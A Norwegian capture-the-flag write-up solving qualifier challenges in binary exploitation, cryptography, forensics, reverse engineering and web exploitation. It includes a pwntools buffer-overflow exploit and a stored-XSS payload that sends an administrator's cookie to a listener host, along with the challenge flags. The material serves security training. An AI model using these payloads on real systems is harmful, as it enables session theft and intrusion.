

# Cyberlandslaget Kvalifikasjon 2025

## BINARY

## gotowin

*Poeng*: 100

### Oppgave

```
Check this binary and see if you can go for the win!  

Tip: The password is really hard to guess.

`gotowin.hkn:8080`

[Handout](https://nextcloud.haaukins.com/s/gj3b8GixtXGHJwL/download/binary_gotowin.zip)<br>

NOTE:<br>
Create a user and find the VPN and Browser LABs on [Campfire Labs](https://nordics.campfiresecurity.dk/)
```


### Analyse av oppgaven

Åpner i Ghidra og ser i main function:

```c

undefined8 main(void){
  char local_f8 [112];
  char local_88 [112];

  FILE *local_18;
  
  code *local_10;

  slowPuts(message);

  local_10 = lose;

  fgets(local_88,0x100,stdin);

  local_18 = fopen("password.txt","r");
  fgets(local_f8,100,local_18);
  iVar1 = strcmp(local_88,local_f8);
  if (iVar1 == 0) {
    local_10 = win;
  }

  (*local_10)();

  return 0;
}
```

Jeg ser at funksjonen vi prøver å nå er `win`, og vi finner addressen til denne funksjonen i Ghidra: `0x0040131e`


### Løsning

Sårbarheten her er at fgets leser inn 0x100 (256) tegn, som er mer enn de 112 variablen local_88 kan holde. Derfor kan vi overskrive returadressen i local_10 fra lose til win. Adressen fant vi i Ghidra, men vi kan også bruke `gdb`:

```bash
gdb main
disas win
```

Her er solveskriptet:

```py
from pwn import *

# Remote target (change IP/port if needed)
HOST = "10.42.18.154"
PORT = 8080

# Address of win() function (replace with your found address)
win_address = 0x000000000040131e  

# Construct exploit payload
payload = b"A" * 112        # Fill buffer
payload += b"B" * 8         # Padding (overwrites saved RBP)
payload += p64(win_address) # Overwrite local_10 with win()

# Start remote connection
conn = remote(HOST, PORT)

# Send the payload
conn.sendline(payload)

# Interactive mode to see the response
conn.interactive()
```

<details>
<summary>Flagg</summary>

`DDC{1t_s_n0t_4b0ut_th3_p4ssw0rd}`
</details>


## CRYPTOGRAPHY

## Binary-Encodings1

*Poeng*: 185

### Oppgave

```
I heard hackers like binary, so I took my flag and binarified it, then scattered it among the primes!
Can you reconstruct it from these small numbers, then undo my super cool permutation?

[Handout](https://nextcloud.haaukins.com/s/8eZdnbj4NZCmFK4/download)<br>
```


### Analyse av oppgaven


### Løsning

```py
from sympy.ntheory.modular import crt
import re

# Read the output.txt file
with open("output.txt", "r") as f:
    data = f.readlines()

# Extract moduli (p values) and remainders (f values)
p_values = []
f_values = []

for line in data:
    match_p = re.match(r'p_(\d+) = (\d+)', line)
    match_f = re.match(r'f_(\d+) = (\d+)', line)
    
    if match_p:
        p_values.append(int(match_p.group(2)))
    if match_f:
        f_values.append(int(match_f.group(2)))

# Apply CRT to reconstruct the original binarified flag
flag_binarified, _ = crt(p_values, f_values)

# Convert back to bytes
flag_binary = flag_binarified.to_bytes((flag_binarified.bit_length() + 7) // 8, "big")
flag_recovered = int(flag_binary.decode(), 2).to_bytes((len(flag_binary) - 1) // 8 + 1, "big")

print("Recovered flag:", flag_recovered.decode())
```

<details>
<summary>Flagg</summary>

`DDC{crt_to_the_m0100010110001n}`
</details>


## Vigenère's dictionary

*Poeng*: 100

### Oppgave

```
A more advanced substitution cipher is the Vigenère cipher, where a longer key is used to prevent brute-force attacks.  
The key was chosen from a Danish dictionary, making it easy to remember.  

The encrypted flag is in Danish—can it be decrypted even though it is very short?  

Remember to format the result as a flag. (DDC example flag -> **DDC{example_flag}**)


[Handout](https://nextcloud.haaukins.com/s/QYSqnkp9MCqz4MC/download)<br>
```


### Analyse av oppgaven


### Løsning


<details>
<summary>Flagg</summary>

`DDC{ordbogsangreb_er_farlige}`
</details>


## FORENSICS

## Straba

*Poeng*: 100

### Oppgave

```
We are looking for location of some soldiers. We have received a tip-off that they use Straba to post their runs. However, Straba has a policy of not disclosing any information, so we have to see if we can find something ourselves. Go to straba.hkn and see if you can find anything in the images.  

The flag is the name of the city near the military base they are at.  

Example flag: **DDC{roskilde}**  

[straba.hkn](#)


NOTE:<br>
Create a user and find the VPN and Browser LABs on [Campfire Labs](https://nordics.campfiresecurity.dk/)
```


### Analyse av oppgaven

On the Straba website I find this image in the latest post:




### Løsning

For å finne ut hvor dette bildet er tatt brukte jeg Exiftool. I metadataene til bildet fant jeg koordinater til hvor bildet er tatt: 

`55.2378708,9.2462231,2092`

Søker jeg opp koordinatene finner jeg ut at dette er ved militærbasen Skrydstrup Flyvestation. Flagget er byen rett ved


<details>
<summary>Flagg</summary>

`DDC{skrydstrup}`
</details>


## GATEKEEPER

## Unlock advanced challenges

*Poeng*: 0

### Oppgave

```
To make the CTF more approachable and less intimidating, the more advanced challenges are locked behind this one.

If you're a beginner, we recommend starting with the challenges that are already unlocked.

If you've completed those or are an experienced player, feel free to take on the rest for a difficult but rewarding experience.

**If you are ready, submit this flag!**

`DCC{welcome_back_o'_sleeping_dreamer}`
```


### Analyse av oppgaven


### Løsning


<details>
<summary>Flagg</summary>

`flagg_her`
</details>


## MISC

## Hasher is back

*Poeng*: 100

### Oppgave

```
<center>
	
💀 We hashed the flag, can you crack it?💀
	
MD5 Hash: 24bb5c555b8f32d27eaeec9c5522b576
	
🛠️ find the value we hashed and insert it into the flag format like so: DDC{cracked-hash-words-here} . 🛠️


💡 Pro tip: Its not possible to reverse a hash directly to go from the hash value back to its "pre-image". However if you have some guesses for what the the original message could be, you can test them to see if they match in a so-called "dictionary attack"! Tools like john the ripper or hashcat can do this very fast, or you can try googling to find databases of pre-computed hashes to look the hash up in. 💡

</center>
```


### Løsning

https://crackstation.net/

<details>
<summary>Flagg</summary>

`DDC{iloveyouall}`
</details>


## REVERSE_ENGINEERING

## outXORcing

*Poeng*: 100

### Oppgave

```
I only develop beautiful user interfaces, so I outsourced access control to a backend developer (the inverse of me). Can you check if it's secure for me?  

P.S. My backend developer says that `objdump -d -S` is strictly forbidden and that no one uses Ghidra anymore.

[Handout](https://nextcloud.haaukins.com/s/i55ks6SXA6AyMLN/download/reveng_outXORcing.zip)<br>
```


### Analyse av oppgaven

Vi får et tips om å bruke Ghidra for å løse oppgaven, så jeg åpner fila i Ghidra og henter ut følgende del av kildekoden som jeg ser at inneholder flagget (forenklet for simpelhet):

```c
_Bool enc_password(char *password){
    key[0] = 'j';
    key[1] = 'e';
    key[2] = 'n';
    key[3] = 's';
    key[4] = '_';
    key[5] = 'm';
    key[6] = 'y';
    key[7] = 'r';
    key[8] = 'u';
    key[9] = 'p';
    key[10] = '\0';
    FLAG[0] = '.';
    FLAG[1] = '!';
    FLAG[2] = '-';
    FLAG[3] = '\b';
    FLAG[4] = '\'';
    FLAG[5] = ']';
    FLAG[6] = '\v';
    FLAG[7] = '-';
    FLAG[8] = '\x1c';
    FLAG[9] = '\x03';
    FLAG[10] = '5';
    FLAG[11] = '\x17';
    FLAG[12] = ']';
    FLAG[13] = '\x05';
    FLAG[14] = 'l';
    FLAG[15] = '\x1f';
    FLAG[16] = '\n';
    FLAG[17] = '\x1b';
    FLAG[18] = '\x17';
    FLAG[19] = '\x1c';
    FLAG[20] = 'Y';
    FLAG[21] = '\x18';
    FLAG[22] = '\0';

    sVar2 = strlen(key);
    sVar3 = strlen(password);

    for (i = 0; i < sVar3; i = i + 1) {
        result[i] = password[i] ^ key[i % sVar2];
    }
    result[sVar3] = '\0';

    printf("XOR result in hex: ");
    for (i_1 = 0; i_1 < sVar3; i_1 = i_1 + 1) {
        printf("%02x ",(ulong)(byte)result[i_1]);
    }

    printf("XOR result as string: %s\n",result);
    
    iVar1 = strcmp(result,FLAG);
    return iVar1 == 0;
}
```


### Løsning

ChatGPT kan reversere xor-uttrykket og løsningen i python blir slik:

```py
# Key
key = "jens_myrup" 

# Encrypted FLAG (as given in the C program)
FLAG = [ord('.'), ord('!'), ord('-'), 8, ord("'"), ord(']'), 11, ord('-'), 28, 3, ord('5'), 23, ord(']'), 5, ord('l'), 31, 10, 27, 23, 28, ord('Y'), 24]

# Decrypting the password
password = ""
for i in range(len(FLAG)):
    password += chr(FLAG[i] ^ ord(key[i % len(key)]))
print(password)
```

<details>
<summary>Flagg</summary>

`DDC{x0r_is_r3v3rsibl3}`
</details>


## What time is it?

*Poeng*: 100

### Oppgave

```
I'm always running late, so my friends end up eating all the cookies before I even arrive. This time, they’ve left me a challenge: I have to guess the exact order in which they ate the cookies.  

Can you help me figure out the sequence?
```


### Analyse av oppgaven

Kildekoden (forenklet):

```py
from config import SECRET_KEY,  X_3, Y

def t():
    x = l.localtime(); h=x.tm_hour; m=x.tm_min
    return (h * 64 + m) ^ (h << 2) ^ (m & 0b1111)

def g():
    return [str(random.randint(1, 3)) for _ in [0] * 8]

t = t()
random.seed(t)
c = g()

@app.route('/')
def index():
    session['p'] = Y
    return render_template('index.html')

@app.route('/9012340-123849081239582304213-42134123', methods=['POST'])
def seq():
    u = request.json.get('q')
    if u == c:
        return jsonify({"x_3": X_3}) 
    else:
        return '😿'
```

Det første jeg vil sjekke ut er hva vi har i session-cookien: `eyJwIjoiTG9vayBhdCB0aGUgY2xvY2s6IDEyNTYifQ.Z8X5Ew.QKv86qxM9pey9cSk0PRgBKFhNeY`
Det andre jeg ønsker å finne ut er hvordan vi kan kommunisere med serveren. jeg ser at siden `/9012340-123849081239582304213-42134123` har en mulighet for å sende data som post. Herifra finner jeg at målet vårt er å finne en `u` som skal matche `c`.

### Løsning

Om jeg dekryperer cookiestrengen som er en JWT-cookie (kan bruke Base64 decode) finner jeg ut dette hintet:

```
{"p":"Look at the clock: 1256"}
```

Det hinter til at vi kan bruke 1256 som `t` for å bestemme random.seed:

```py
random.seed(t)  
def g():
    return [str(random.randint(1, 3)) for _ in [0] * 8]
c = g()
```

Det gjør at vi kan forutse hva funksjonen `g` vil returnere, og hva `c` vil være. Jeg kjører dette i REPL for å se hva som returneres:

```py
import random
random.seed(1256)
[str(random.randint(1, 3)) for _ in [0] * 8] # ['3', '1', '1', '3', '2', '3', '2', '3']
```

Nå har vi en `c` og kan sende request:

```bash
curl -X POST "http://10.42.6.124/9012340-123849081239582304213-42134123" -H "Content-Type: application/json" -d '{"q": ["3", "1", "1", "3", "2", "3", "2", "3"]}'
```

Herifra finner vi `X_3` som viser seg å inneholde flagget.

<details>
<summary>Flagg</summary>

`DDC{t1m3st4mpsequence_br0k3n}`
</details>


## WEB_EXPLOITATION

## Complete Styling Sadness

*Poeng*: 100

### Oppgave

```
Sometimes, things need to be adjusted to fit perfectly together. Take a closer look at the structure and order—the solution lies in the details.  

I've heard from my friends that **CSS is always the answer.**


[Handout](https://nextcloud.haaukins.com/s/c8QPxqKWQz6nr4j/download) <br>
```


### Analyse av oppgaven

Jeg ser fort hvor i CSS-koden flaggdelene finnes:

CSS:
```css
/* Flag Fragments */
.box-4::after {
    content: "\0044\0044\0043";
}

.box-9::after {
    content: "\007B\0043\0035";
}

.box-6::after {
    content: "\0035\005F\0031";
}

...
```


### Løsning

Jeg kopierte stylesheetet inn i CyberChef og brukte regex for å hente ut den delen av fila som inneholdt flagget.

[CyberChef](https://gchq.github.io/CyberChef/#recipe=Regular_expression('User%20defined','%5C%5C%5C%5C00..',true,true,false,false,false,false,'List%20matches')Find_/_Replace(%7B'option':'Simple%20string','string':'%5C%5C00'%7D,'%20',true,false,true,false)From_Hexdump()Regular_expression('User%20defined','DDC%7B.*%7D',true,true,false,false,false,false,'List%20matches')&input=Ym9keSB7DQogICAgZm9udC1mYW1pbHk6IEFyaWFsLCBzYW5zLXNlcmlmOw0KICAgIGJhY2tncm91bmQtY29sb3I6ICMxMjEyMTI7DQogICAgY29sb3I6ICNmZmZmZmY7DQogICAgdGV4dC1hbGlnbjogY2VudGVyOw0KICAgIG1hcmdpbjogMDsNCiAgICBwYWRkaW5nOiAwOw0KfQ0KDQouaGludCB7DQogICAgbWFyZ2luLXRvcDogNTBweDsNCiAgICBmb250LXNpemU6IDEuNXJlbTsNCn0NCg0KLnB1enpsZSB7DQogICAgbWFyZ2luLXRvcDogMjBweDsNCiAgICBkaXNwbGF5OiBncmlkOw0KICAgIGdyaWQtdGVtcGxhdGUtY29sdW1uczogcmVwZWF0KDUsIDEwMHB4KTsNCiAgICBncmlkLWdhcDogMTBweDsNCiAgICBqdXN0aWZ5LWNvbnRlbnQ6IGNlbnRlcjsNCn0NCg0KLmJveCB7DQogICAgaGVpZ2h0OiA1MHB4Ow0KICAgIHdpZHRoOiAxMDBweDsNCiAgICBiYWNrZ3JvdW5kLWNvbG9yOiAjMzMzOw0KICAgIGNvbG9yOiB0cmFuc3BhcmVudDsNCiAgICBmb250LXNpemU6IDA7DQogICAgdGV4dC1hbGlnbjogY2VudGVyOw0KICAgIGRpc3BsYXk6IGZsZXg7DQogICAgYWxpZ24taXRlbXM6IGNlbnRlcjsNCiAgICBqdXN0aWZ5LWNvbnRlbnQ6IGNlbnRlcjsNCiAgICBwb3NpdGlvbjogcmVsYXRpdmU7DQp9DQoNCi8qIEluaXRpYWxseSBIaWRkZW4gUmVzdWx0IEJveCAqLw0KLnJlc3VsdC1ib3ggew0KICAgIG1hcmdpbjogYXV0byBhdXRvOw0KICAgIGhlaWdodDogNTBweDsNCiAgICB3aWR0aDogNTQwcHg7DQogICAgYmFja2dyb3VuZC1jb2xvcjogIzQ0NDsNCiAgICBjb2xvcjogcmVkOw0KICAgIC8qIERlZmF1bHQgdG8gcmVkIGlmIG5vdCBjb3JyZWN0ICovDQogICAgZm9udC1zaXplOiAxNnB4Ow0KICAgIHRleHQtYWxpZ246IGNlbnRlcjsNCiAgICBkaXNwbGF5OiBmbGV4Ow0KICAgIGFsaWduLWl0ZW1zOiBjZW50ZXI7DQogICAganVzdGlmeS1jb250ZW50OiBjZW50ZXI7DQogICAgZm9udC13ZWlnaHQ6IGJvbGQ7DQogICAgdHJhbnNpdGlvbjogY29sb3IgMC4zcyBlYXNlOw0KfQ0KDQovKiBGbGFnIEZyYWdtZW50cyBhbmQgTm9pc2UgKEluaXRpYWxseSBIaWRkZW4pICovDQouYm94IDo6YWZ0ZXIgew0KICAgIGNvbnRlbnQ6ICIiOw0KICAgIGRpc3BsYXk6IG5vbmU7DQp9DQoNCi5yZXN1bHQtYm94OjphZnRlciB7DQogICAgY29udGVudDogYXR0cihkYXRhLWZsYWcpOw0KICAgIC8qIERpc3BsYXkgdGhlIGZsYWcgY29udGVudCBkeW5hbWljYWxseSAqLw0KICAgIGRpc3BsYXk6IG5vbmU7DQogICAgY29sb3I6IHJlZDsNCiAgICBmb250LXNpemU6IDE2cHg7DQogICAgdGV4dC1hbGlnbjogY2VudGVyOw0KfQ0KDQovKiBGbGFnIEZyYWdtZW50cyAqLw0KLmJveC00OjphZnRlciB7DQogICAgY29udGVudDogIlwwMDQ0XDAwNDRcMDA0MyI7DQp9DQoNCi5ib3gtOTo6YWZ0ZXIgew0KICAgIGNvbnRlbnQ6ICJcMDA3QlwwMDQzXDAwMzUiOw0KfQ0KDQouYm94LTY6OmFmdGVyIHsNCiAgICBjb250ZW50OiAiXDAwMzVcMDA1RlwwMDMxIjsNCn0NCg0KLmJveC0yOjphZnRlciB7DQogICAgY29udGVudDogIlwwMDM1XDAwNUZcMDA0OCI7DQp9DQoNCi5ib3gtMTA6OmFmdGVyIHsNCiAgICBjb250ZW50OiAiXDAwMzRcMDA1MlwwMDQ0IjsNCn0NCg0KLmJveC03OjphZnRlciB7DQogICAgY29udGVudDogIlwwMDVGXDAwNERcMDAzNCI7DQp9DQoNCi5ib3gtNTo6YWZ0ZXIgew0KICAgIGNvbnRlbnQ6ICJcMDA0RVwwMDVGXDAwMzUiOw0KfQ0KDQouYm94LTE6OmFmdGVyIHsNCiAgICBjb250ZW50OiAiXDAwNEJcMDAzMVwwMDM4IjsNCn0NCg0KLmJveC04OjphZnRlciB7DQogICAgY29udGVudDogIlwwMDMxXDAwNDRcMDAzMSI7DQp9DQoNCi5ib3gtMzo6YWZ0ZXIgew0KICAgIGNvbnRlbnQ6ICJcMDA3RFwwMDIwXDAwMjAiOw0KfQ0KDQouYm94LTExOjphZnRlciB7DQogICAgY29udGVudDogIlwwMDM0XDAwMzRcMDAzNCI7DQp9DQoNCi5ib3gtMTU6OmFmdGVyIHsNCiAgICBjb250ZW50OiAiXDAwMzlcMDA0QlwwMDM4IjsNCn0NCg0KLmJveC0xMjo6YWZ0ZXIgew0KICAgIGNvbnRlbnQ6ICJcMDA0MlwwMDQzXDAwMzMiOw0KfQ0KDQouYm94LTEzOjphZnRlciB7DQogICAgY29udGVudDogIlwwMDVBXDAwMzVcMDAzNCI7DQp9DQoNCi5ib3gtMTc6OmFmdGVyIHsNCiAgICBjb250ZW50OiAiXDAwNDNcMDAzNFwwMDMyIjsNCn0NCg0KLyogVmlzaWJsZSBPbmx5IHdpdGggYWxpZ24tY29ycmVjdCAqLw0KLmFsaWduLWNvcnJlY3QgLmJveDo6YWZ0ZXIgew0KICAgIGRpc3BsYXk6IGJsb2NrOw0KICAgIGNvbG9yOiByZWQ7DQogICAgZm9udC1zaXplOiAxNnB4Ow0KICAgIHRleHQtYWxpZ246IGNlbnRlcjsNCn0&ieol=CRLF
)


<details>
<summary>Flagg</summary>

`DDC{C55_15_H4RD_M4N_5K181D1}`
</details>


## Cross Site Job

*Poeng*: 100

### Oppgave

```
Secure Corp is looking for new talent, and you have the chance to submit your application through their online job application system. The website contains a job application form and an administrative section, which is only accessible to employees. Your task is to find a way to gain access to this section.

Once your application is submitted, the administrator will immediately review it in their browser.

(Reminder: The challenge servers cannot reach the wider internet, but maybe you can make the administrator's browser send a request and capture it using http://webhook.hkn, `http.server`, or `netcat`.)

Website: [http://cross-site-job.hkn](#)

Source code:[webexp_cross-site-job.zip](https://nextcloud.haaukins.com/s/CNgK4XqqZyLj3pX/download/webexp_cross-site-job.zip) <br> 

NOTE:<br>
Create a user and find the VPN and Browser LABs on [Campfire Labs](https://nordics.campfiresecurity.dk/)
```


### Analyse av oppgaven

Det er tydelig fra navnet på oppgaven at vi ønsker å gjennomføre et CSRF-angrep. Derfor går tankene umiddelbart mot XSS. I `submittion.html` i templates-mappen finner jeg ut at det bare er `payload`-feltet i `app.py` som er sårbart for XSS fordi det har property "| safe", som forteller template engine at vi stoler på inputen og at den ikke skal escapes:

```html
<div class="container">
    <h1>Application Review</h1>
    <div class="field output"><strong>Full Name:</strong> <span>{{ submission[1] }}</span></div>
    <div class="field output"><strong>Email Address:</strong> <span>{{ submission[2] }}</span></div>
    <div class="field output"><strong>Position Applied For:</strong> <span>{{ submission[3] }}</span></div>
    <div class="field output"><strong>Cover Letter:</strong> <span>{{submission[4] | safe}}</span></div>
</div>
```

For feltet `payload` der er det satt en blacklist:

```py
blacklist = ["<script", "
```

Payloaden vår blir slik:

```js
new Image().src = "http://webhook.hkn/capture?c="+document["cookie"];
```

Jeg oppdager at inputfeltet på nettsiden wrapper tekstfeltet med en `<p>` før det sendes. Derfor sender jeg requesten med ferdig payload manuelt:

```py
import requests

url = "http://10.42.28.215/"

data = {
    "fullname": "Hello",
    "email": "world@world.com",
    "position": "Security Specialist",
    "coverletter": "<input onfocus=\"new Image().src='http://10.42.28.170/capture?c='+document['cookie']\" autofocus>"
}

response = requests.post(url, data)

print(response.status_code)
```

Tilbake får vi en admin session cookie som vi kan sette inn i browser for å få tilgang til flagget.

<details>
<summary>Flagg</summary>

`DDC{c0ngr4tul4t10n5-j0b-w3ll-d0n3}`
</details>


